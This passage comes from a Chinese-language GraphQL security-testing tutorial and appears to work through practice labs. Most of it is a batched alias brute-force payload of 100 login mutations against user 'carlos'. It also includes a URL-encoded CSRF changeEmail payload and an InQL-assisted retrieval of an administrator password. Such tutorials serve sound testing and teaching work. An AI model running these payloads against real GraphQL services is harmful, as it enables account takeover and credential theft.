bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
```

随后先更改请求报文：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220153147-1ad761ac-cfc2-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220153458-8c9312d2-cfc2-1.png)

进行数据的替换操作：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220153529-9f04ad5e-cfc2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220153555-aece78e6-cfc2-1.png)

随后进行一次批量数据查询：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220153636-c7009eda-cfc2-1.png)

随后进行一次批量数据查询：  
：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220154017-4ab461a8-cfc3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220154113-6c4ae21a-cfc3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220154412-d6962bd4-cfc3-1.png)  
进行数据的替换操作：#

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220154659-3aa8b592-cfc4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220154834-732cd4d4-cfc4-1.png)

```plain
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
```

随后先更改请求报文：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220155201-ee2c1802-cfc4-1.png)  
进行数据的替换操作：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220155227-fdff5140-cfc4-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220155259-10f969ca-cfc5-1.png)

随后进行一次批量数据查询：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220155334-25ef124e-cfc5-1.png)  
找到为"true"的 token 凭据信息，此时对应的为 bruteforce75，对应的密码为 joshua

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220155355-3238a434-cfc5-1.png)

#### 跨站请求

跨站点请求伪造 (CSRF) 漏洞使攻击者能够诱使用户执行他们不打算执行的操作，这是通过创建恶意网站来实现的，该网站会伪造对易受攻击应用程序的跨域请求，很多人可能觉得 GrapQL 不存在 CSRF 漏洞，其实不然，GraphQL 可用作 CSRF 攻击的向量，攻击者利用该向量创建漏洞使受害者的浏览器以受害者用户的身份发送恶意查询。如果 GraphQL 端点不验证发送给它的请求的内容类型并且没有实现 CSRF 令牌，则可能会出现 CSRF 漏洞，只要内容类型得到验证，使用 application/json 内容类型的 POST 请求就可以防止伪造，在这种情况下即使受害者访问恶意网站，攻击者也无法让受害者的浏览器发送此请求，但是替代方法 (例如:GET) 或任何内容类型为 x-www-form-urlencoded 的请求都可以由浏览器发送，因此如果端点接受这些请求，则用户可能容易受到攻击，在这种情况下攻击者可能会精心利用漏洞向 API 发送恶意请求

网站中有一个更改邮箱地址的位置，当我们输入输入新的电子邮件地址并更新，使用 burpsuite 抓包如下，可以看到电子邮件更改是作为 GraphQL 发送的：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220155710-a6a25112-cfc5-1.png)

右键单击电子邮件更改请求，然后选择发送到 Repeater，修改 GraphQL 查询以将电子邮件更改为另一个不同的地址，在回复中可以看到电子邮件再次更改，这表明您可以重用会话 cookie 来发送多个请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160028-1cb6f3f8-cfc6-1.png)

随后我们将请求转换为内容类型为 x-www-form-urlencoded 的 POST 请求，为此右键单击请求并选择 Change request method 两次  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160051-2a7bbb4a-cfc6-1.png)

从上面可以看到 body 已被删除，随后我们直接使用 URL 编码重新添加请求正文

```plain
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160135-4467c634-cfc6-1.png)

随后生成 CSRF 载荷：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160152-4e5b2b7c-cfc6-1.png)

使用 BurpSuite 生成 CSRF 载荷，随后诱导用户访问即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160207-57dd4c3e-cfc6-1.png)

#### 权限问题

GraphQL 很常见的一个就是权限问题了，目前很多的接口要么是采用业务逻辑鉴权，要么就是使用 RBAC 基于角色的鉴权，很多角色在创建之初并没有进行细微的权限划分，导致后期随着业务的开发越来越多的角色添加进来，而接口尚并未通过添加注解进行鉴权或者还有一种就是对鉴权逻辑存在设计缺陷，导致整改鉴权体系混乱，出现一大批的越权漏洞，之前测试的一个产品就是这样的情况  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160709-0b4feb3c-cfc7-1.png)

#### SSRF 风险

SSRF 漏洞是一种安全漏洞，攻击者可以利用它来使服务器发起未经授权的网络请求。在 GraphQL 中，这种漏洞通常是由于不正确实现或配置引起的。攻击者可以构造一个恶意查询，通过 GraphQL 服务器向内部网络或其他外部系统发送请求，甚至可能访问敏感信息或执行未经授权的操作，下面是一个之前的测试截图，具体的报文没截取到，凑合看一下吧，总之就是参数不可忽略，宁可多扣一下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220161550-4240d1a0-cfc8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220162019-e2b71b3a-cfc8-1.png)

### 插件使用

InQL v5.0 提供的主要工具是一个可自定义的扫描程序，主要用于分析 GraphQL 端点或本地内省模式文件，它生成所有可能的查询和突变并以有组织的视图显示它们以进行彻底分析，扫描结果可以发送到 Burp 的中继器或入侵者工具进行进一步测试，同时它也引入了 GQLSpection，它是一个多功能的 CLI 工具并以无头模式发送内省查询、解析结果、生成查询和运行兴趣点扫描，我们可以在 Burpsuite 的"Extensions->BApp Store"中选择插件并进行安装

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220162053-f67ab802-cfc8-1.png)  
例如在上面的示例中，我们在 Burpsuite 中发现了被检测到的 GraphQL：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220162109-001d7c5a-cfc9-1.png)  
紧接着我们复制此 URL 到 InQL 中进行分析，发现此处存在 getUser 接口，此接口会返回用户的用户名、用户密码等信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220162122-083215c2-cfc9-1.png)  
随后发送请求报文到 repeat 模块并更改 id 为 0 进行检索，可以发现此时放回的信息为空

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220162135-0fb3d54c-cfc9-1.png)

随后我们获取到 administrator 的密码信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220162149-1827a91a-cfc9-1.png)

这妥妥的为我们节省的很多手动 fuzzing 的时间和繁琐的步骤~

### 文末小结

本篇文章我们主要介绍了 Graphql 的基本概念、核心组成、数据结构、操作类型、安全风险、工具插件等内容，随后对 Graphql 的安全漏洞进行介绍，其中内省查询的利用和绕过方式值得深入思考，也是我们在安全测试中需要特别特别留意的一个测试的点，有时候多试试说不上就会有奇迹发生哦~

### 参考链接

[https://graphql.cn/learn/](https://graphql.cn/learn/)  
[https://2fd.github.io/graphdoc/star-wars/](https://2fd.github.io/graphdoc/star-wars/)  
[https://medium.com/@ghostlulzhacks/api-hacking-graphql-7b2866ba1cf2](https://medium.com/@ghostlulzhacks/api-hacking-graphql-7b2866ba1cf2)  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)
